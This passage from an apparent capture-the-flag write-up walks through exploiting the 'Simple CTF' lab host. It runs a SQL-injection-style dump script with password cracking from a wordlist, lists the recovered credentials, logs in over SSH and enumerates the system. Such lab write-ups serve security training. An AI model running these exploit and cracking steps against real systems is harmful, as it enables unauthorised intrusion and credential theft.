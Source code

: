 ```python
dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print colored("[*] Now try to crack password")
    crack_password()

beautify_print()
```

#### Running the Exploit

```bash
python exploit.py -u http://simplectf.thm/simple/ -w /usr/share/wordlists/rockyou.txt
```

**Results:**

* **Username:** mitch
    
* **Email:** [admin@admin.com](mailto:admin@admin.com)
    
* **Password hash:** 0c01f4468bd75d7a84c7eb73846e8d96
    
* **Cracked password:** secret
    

### SSH Access

With the credentials obtained, we can now access the SSH service:

```bash
ssh -p 2222 mitch@simplectf.thm
```

Use the password `secret` when prompted.

## Post Exploitation

### Initial Enumeration

After gaining access, let's gather basic system information:

```bash
id
who
uname -a
```

**System Information:**

* User: mitch (uid=1001)
    
* OS: Ubuntu 16.04.1 LTS (Linux 4.15.0-58-generic)
    
